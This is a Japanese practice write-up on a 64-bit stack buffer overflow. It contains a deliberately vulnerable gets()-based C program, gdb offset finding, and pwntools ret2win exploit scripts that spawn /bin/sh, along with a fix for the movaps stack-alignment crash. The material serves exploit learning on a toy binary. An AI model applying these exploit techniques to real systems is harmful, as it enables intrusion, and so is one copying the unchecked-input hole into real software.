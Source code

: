```yaml
---


---
```


<h2 id="現象">現象</h2>
<p>system("/bin/sh")を入れるとここでSEGVするやつ</p>
<pre><code>&lt;do_system+1094&gt;:	movaps XMMWORD PTR [rsp+0x40],xmm0
</code></pre>
<h2 id="対策">対策</h2>
<ul>
<li>ret → system("/bin/sh")にする</li>
<li>なぜ大丈夫なのかはよく分からない（分かったら書く）</li>
</ul>
<h2 id="検証">検証</h2>
<p>こんなプログラムを用意</p>
<pre class=" language-c"><code class="prism  language-c"><span class="token comment">//bofu.c</span>
<span class="token macro property">#<span class="token directive keyword">include</span> <span class="token string">&lt;stdio.h&gt;</span></span>

<span class="token keyword">char</span> <span class="token function">vuln</span><span class="token punctuation">(</span><span class="token punctuation">)</span>
<span class="token punctuation">{</span>
  <span class="token keyword">char</span> buf<span class="token punctuation">[</span><span class="token number">64</span><span class="token punctuation">]</span><span class="token punctuation">;</span>
  <span class="token function">printf</span><span class="token punctuation">(</span><span class="token string">"BOF &gt;&gt; "</span><span class="token punctuation">)</span><span class="token punctuation">;</span>
  <span class="token function">gets</span><span class="token punctuation">(</span>buf<span class="token punctuation">)</span><span class="token punctuation">;</span>
  <span class="token function">puts</span><span class="token punctuation">(</span>buf<span class="token punctuation">)</span><span class="token punctuation">;</span>
<span class="token punctuation">}</span>

<span class="token keyword">int</span> <span class="token function">main</span><span class="token punctuation">(</span><span class="token punctuation">)</span>
<span class="token punctuation">{</span>
  <span class="token function">setbuf</span><span class="token punctuation">(</span><span class="token constant">stdout</span><span class="token punctuation">,</span> <span class="token constant">NULL</span><span class="token punctuation">)</span><span class="token punctuation">;</span>
  <span class="token function">vuln</span><span class="token punctuation">(</span><span class="token punctuation">)</span><span class="token punctuation">;</span>
<span class="token punctuation">}</span>

<span class="token keyword">void</span> <span class="token function">system_binsh</span><span class="token punctuation">(</span><span class="token punctuation">)</span>
<span class="token punctuation">{</span>
  <span class="token function">system</span><span class="token punctuation">(</span><span class="token string">"/bin/sh"</span><span class="token punctuation">)</span><span class="token punctuation">;</span>
<span class="token punctuation">}</span>
</code></pre>
<p>コンパイル</p>
<pre><code>gcc bofu.c -fno-stack-protector -no-pie
</code></pre>
<p>exploitを作る。<br>
まず飛び先を調べて、</p>
<pre><code>gdb-peda$ disass system_binsh
Dump of assembler code for function system_binsh:
   0x00000000004006a9 &lt;+0&gt;:	push   rbp
   (snip)  
End of assembler dump.
gdb-peda$ disass vuln
Dump of assembler code for function vuln:
   (snip)
   0x000000000040067e &lt;+55&gt;:	leave  
   0x000000000040067f &lt;+56&gt;:	ret    
</code></pre>
<p>returnアドレスまでの字数を調べて、</p>
<pre><code>=&gt; 0x40067f &lt;vuln+56&gt;:	ret    
   0x400680 &lt;main&gt;:	push   rbp
   0x400681 &lt;main+1&gt;:	mov    rbp,rsp
   0x400684 &lt;main+4&gt;:	mov    rax,QWORD PTR [rip+0x2009c5]        # 0x601050 &lt;stdout@@GLIBC_2.2.5&gt;
   0x40068b &lt;main+11&gt;:	mov    esi,0x0
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdd28 ("IAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0008| 0x7fffffffdd30 ("AJAAfAA5AAKAAgAA6AAL")
0016| 0x7fffffffdd38 ("AAKAAgAA6AAL")
0024| 0x7fffffffdd40 --&gt; 0x4c414136 ('6AAL')
0032| 0x7fffffffdd48 --&gt; 0x7fffffffde18 --&gt; 0x7fffffffe1b4 ("/home/jt/Downloads/old/practice/x64/bof1/a.out")
0040| 0x7fffffffdd50 --&gt; 0x100008000 
0048| 0x7fffffffdd58 --&gt; 0x400680 (&lt;main&gt;:	push   rbp)
0056| 0x7fffffffdd60 --&gt; 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x000000000040067f in vuln ()
gdb-peda$ patto IAAe
IAAe found at offset: 72
gdb-peda$
</code></pre>
<p>この場合こう書くはず。</p>
<pre class=" language-python"><code class="prism  language-python"><span class="token keyword">from</span> pwn <span class="token keyword">import</span> <span class="token operator">*</span>

BINARY <span class="token operator">=</span> <span class="token string">"./a.out"</span>
elf <span class="token operator">=</span> ELF<span class="token punctuation">(</span>BINARY<span class="token punctuation">)</span>

win <span class="token operator">=</span> <span class="token number">0x4006a9</span>

<span class="token comment"># r = process(BINARY)</span>
r <span class="token operator">=</span> gdb<span class="token punctuation">.</span>debug<span class="token punctuation">(</span>BINARY<span class="token punctuation">,</span> <span class="token triple-quoted-string string">'''
b*0x40067f
c
'''</span><span class="token punctuation">)</span>

r<span class="token punctuation">.</span>recvuntil<span class="token punctuation">(</span><span class="token string">"&gt;&gt;"</span><span class="token punctuation">)</span>

payload  <span class="token operator">=</span> <span class="token string">"A"</span> <span class="token operator">*</span> <span class="token number">72</span>
payload <span class="token operator">+=</span> p64<span class="token punctuation">(</span>win<span class="token punctuation">)</span>
r<span class="token punctuation">.</span>sendline<span class="token punctuation">(</span>payload<span class="token punctuation">)</span>

r<span class="token punctuation">.</span>interactive<span class="token punctuation">(</span><span class="token punctuation">)</span>
</code></pre>
<p>すると、通らない。<br>
（手元の環境だと、ubuntu18は通らない。ubuntu16は通る。）</p>
<pre><code>=&gt; 0x7f0e944402f6 &lt;do_system+1094&gt;:	movaps XMMWORD PTR [rsp+0x40],xmm0
   0x7f0e944402fb &lt;do_system+1099&gt;:	
    call   0x7f0e94430110 &lt;__GI___sigaction&gt;
   0x7f0e94440300 &lt;do_system+1104&gt;:	
    lea    rsi,[rip+0x39e2f9]        # 0x7f0e947de600 &lt;quit&gt;
   0x7f0e94440307 &lt;do_system+1111&gt;:	xor    edx,edx
   0x7f0e94440309 &lt;do_system+1113&gt;:	mov    edi,0x3
[------------------------------------stack-------------------------------------]
0000| 0x7ffcb4ff3148 --&gt; 0x0 
0008| 0x7ffcb4ff3150 --&gt; 0x7f0e945a4e97 (sub    eax,0x622f0063)
0016| 0x7ffcb4ff3158 --&gt; 0x0 
0024| 0x7ffcb4ff3160 --&gt; 0x0 
0032| 0x7ffcb4ff3168 --&gt; 0x7f0e94440360 (&lt;cancel_handler&gt;:	push   rbx)
0040| 0x7ffcb4ff3170 --&gt; 0x7ffcb4ff3164 --&gt; 0x9444036000000000 
0048| 0x7ffcb4ff3178 --&gt; 0x0 
0056| 0x7ffcb4ff3180 --&gt; 0x2 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00007f0e944402f6 in do_system (line=0x40075c "/bin/sh")
    at ../sysdeps/posix/system.c:125
125	../sysdeps/posix/system.c: No such file or directory.
gdb-peda$ 
</code></pre>
<p>調べるとヒットするのは以下の記事。</p>
<blockquote>
<p>绕过ASLR–return2plt<br>
<a href="https://www.tiandiwuji.top/posts/32791/">https://www.tiandiwuji.top/posts/32791/</a></p>
</blockquote>
<p>ASLRを回避という話なの？<br>
結局、retを一回噛ましてくださいというお話になっている。<br>
私の経験値が足りないことだけはわかる。</p>
<p>とりあずは、以下のように修正すると動く。</p>
<pre class=" language-python"><code class="prism  language-python"><span class="token keyword">from</span> pwn <span class="token keyword">import</span> <span class="token operator">*</span>

BINARY <span class="token operator">=</span> <span class="token string">"./a.out"</span>
elf <span class="token operator">=</span> ELF<span class="token punctuation">(</span>BINARY<span class="token punctuation">)</span>

win <span class="token operator">=</span> <span class="token number">0x4006a9</span>
ret <span class="token operator">=</span> <span class="token number">0x40067f</span>

<span class="token comment"># r = process(BINARY)</span>
r <span class="token operator">=</span> gdb<span class="token punctuation">.</span>debug<span class="token punctuation">(</span>BINARY<span class="token punctuation">,</span> <span class="token triple-quoted-string string">'''
b*0x40067f
c
'''</span><span class="token punctuation">)</span>

r<span class="token punctuation">.</span>recvuntil<span class="token punctuation">(</span><span class="token string">"&gt;&gt;"</span><span class="token punctuation">)</span>

payload  <span class="token operator">=</span> <span class="token string">"A"</span> <span class="token operator">*</span> <span class="token number">72</span>
payload <span class="token operator">+=</span> p64<span class="token punctuation">(</span>ret<span class="token punctuation">)</span>
payload <span class="token operator">+=</span> p64<span class="token punctuation">(</span>win<span class="token punctuation">)</span>
r<span class="token punctuation">.</span>sendline<span class="token punctuation">(</span>payload<span class="token punctuation">)</span>

r<span class="token punctuation">.</span>interactive<span class="token punctuation">(</span><span class="token punctuation">)</span>
</code></pre>
<p>以上。</p>
<p>heapは挙動が明らかに変わっていているが、こうやって微妙に変わっているのもおもしろい。<br>
しかしながらスタックBOF初心者は無事死ぬ。<br>
がんばって生きよう。</p>
<blockquote>
<p>Written with <a href="https://stackedit.io/">StackEdit</a>.</p>
</blockquote>

